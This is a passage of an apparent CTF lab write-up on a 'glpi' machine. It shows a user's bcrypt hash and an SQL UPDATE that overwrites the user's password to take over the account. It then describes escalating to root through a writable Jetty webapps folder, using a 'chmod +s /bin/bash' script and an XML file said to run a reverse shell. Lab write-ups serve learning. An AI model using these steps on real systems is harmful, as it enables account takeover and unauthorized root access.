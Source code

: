 ```
7       betty   $2y$10$jG8/feTYsguxsnBqRG6.judCDSNHY4it8SgBTAHig9pMkfmMl9CFa 
```
We can also try to decrypt the hash with hashcat, but Since we have update permission, We can 

1. Encrypt our new password with the same format above
2. And update the DB

```
XXX = $2a$10$78dZ08Q8LotnMJ8Dl1uutON6/R.L6KNXPbWhAnRr66tnGGi3V3d/.

update glpi_users SET password = '$2y$10$Kq6wuIrbcED3xBHQSTp2W.845KRt5vDRrcka9cDufnDF1EKpsQ/PO' where username ='betty';
```
I couldn't use SSH with this new credential. But maybe, we can login to the website from (1)!

![glpi-5](../contentImages/glpi/glpi-5.png)

Finally, we can ssh into the machine as user betty!

## 4. PrivEsc to root.

Even if the first part was extremly hard, privesc to root wasn't also easy.


After running linpeas once more, I found a suspicious folder under /opt

```
$ cd /opt
$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Jan 25  2023 .
drwxr-xr-x 19 root root 4096 Jan 24  2023 ..
drwxr-xr-x  7 root root 4096 Jan 25  2023 jetty
$ cd jetty
$ ls
bin  etc  jetty-base  lib  LICENSE.txt  modules  NOTICE.txt  README.adoc  start.jar  VERSION.txt
```

Another webserver is running by server, and it is using jetty. And user betty has full access to this app and folder.


After searching for a while for any privesc vector, I found this image from the internet:

![glpi-6](../contentImages/glpi/glpi-6.png)

We have kind-of xml injection here. 
So I basically injected revshell execution code, then got revshell as root.

```
$ ls
bin  etc  jetty-base  lib  LICENSE.txt  modules  NOTICE.txt  README.adoc  start.jar  VERSION.txt
$ cd jetty-base
$ ls
jetty.state  resources  start.d  webapps
$ cd webapps
$ echo "chmod +s /bin/bash" > /tmp/root.sh
$ chmod +x /tmp/root.sh
$ nano rooted.xml

<xml...>....revshell command! </xml>
```

